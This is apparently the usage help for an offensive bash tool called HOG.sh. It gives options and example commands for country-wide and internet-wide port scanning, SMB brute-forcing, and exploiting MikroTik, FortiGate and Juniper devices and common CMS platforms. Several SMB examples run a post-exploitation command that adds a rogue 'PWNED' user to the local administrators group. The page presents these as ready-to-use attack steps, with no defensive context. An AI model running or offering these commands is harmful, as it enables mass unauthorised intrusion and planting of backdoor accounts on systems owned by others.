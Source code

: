 # HOG
Options:
        -c  get specefic country ip
        -o for path of save ip /tmp/ips
        -p for just one port scanning like -p 80 get all 80 port
        -pp for scanning multi port like -pp 80,3389,22
        -r for specefic range like 1.1.1.1-2.2.2.2
        -l for import file ip range for scanning you file must be cidr ip range like 1.1.1.0/24
        -s for give me site target.com i will check you site range port scanning you can use -p or -pp for site range
        -e for exploiting support mikrotik fortigate smb juniper
        -scan for scanning support wordpress joomla drupal sharepoint
        -uf user file  this switch use for smb exploit brute force for compelte smb exploit
        -pf password file this switch use for smb exploit brute force for compelte smb exploit
        -cmd this switch use for smb exploit you can add your desire command that want run after exploiting see down here in examples"
      
Examples:
bash HOG.sh -c CountryNAME -p 80 -o /tmp/CountryName80
bash HOG.sh -c CountryName -pp 80,3389  -o  /tmp/CountryName80-3389
bash HOG.sh -r 1.1.1.1-2.2.2.2 -p 80 -o /tmp/rangeport80
bash HOG.sh -r 1.1.1.1-2.2.2.2 -pp 80,3389 -o /tmp/rangeport80-3389
bash HOG.sh -l /tmp/target -p 80 -o /tmp/target80
bash HOG.sh -l  /tmp/target  -pp 80,3389 -o /tmp/target80-3389
bash HOG.sh -s x.com  -p 80  -o  /tmp/xrange80
bash HOG.sh -s x.com -pp 80,3389  -o   /tmp/xrange80-3389
bash HOG.sh -cs  -p 445 -o  /tmp/world445
bash HOG.sh -e smb -c CountryName -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"
bash HOG.sh -e smb -r 1.1.1.1-2.2.2.2 -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"
bash HOG.sh -e smb -l /tmp/target  -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"
bash HOG.sh -e smb -cs   -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"
bash HOG.sh -e mikrotik -c CountryName  -o /tmp/CountryNamemikexp
bash HOG.sh -e mikrotik -r 1.1.1.1-2.2.2.2 -o /tmp/rangemikrotikexp
bash HOG.sh -e mikrotik -l /tmp/target -o /tmp/targetmikrotikexp
bash HOG.sh -e mikrotik -cs   -o /tmp/worldmikrotikexp
bash HOG.sh -e fortigate -c CountryName -o /tmp/CountryNamefortigateexp
bash HOG.sh -e fortigate -r 1.1.1.1-2.2.2.2 -o /tmp/rangefortigateexp
bash HOG.sh -e fortigate -l /tmp/target -o /tmp/targetfortigateexp
bash HOG.sh -e fortigate -cs   -o /tmp/worldfortigateexp
bash HOG.sh -e juniper -c CountryName -o /tmp/afghanjuniperexp
bash HOG.sh -e juniper -r 1.1.1.1-2.2.2.2 -o /tmp/rangejuniperexp
bash HOG.sh -e juniper -l /tmp/target  -o /tmp/targetjuniperexp
bash HOG.sh -e juniper -cs   -o /tmp/worldjuniperexp
bash HOG.sh -scan wordpress -l /tmp/wpfile -o /tmp/wpout
bash HOG.sh -scan joomla -l /tmp/joomfile -o /tmp/joomout
bash HOG.sh -scan sharepoint -l /tmp/spfile -o /tmp/sharepointout
bash HOG.sh -scan drupal -l /tmp/drupfile -o /tmp/drupalout 
bash HOG.sh -dns
bash HOG.sh -sub
bash HOG.sh -l /tmp/targets -checks -o /tmp/targets/ 
bash HOG.sh -c CountryName -router -o /tmp/afghanrouters/ 
bash HOG.sh -c CountryName -range -o /tmp/afghanrange 
bash HOG.sh -l /tmp/sshcheck -ssh -o /tmp/sshenum
bash HOG.sh -l /tmp/rdp -rdp /tmp/screenshot/ 
bash HOG.sh -l /tmp/tg -scan webserver -o /tmp/webserver
bash HOG.sh -l /tmp/tg -headers -o /tmp/header "

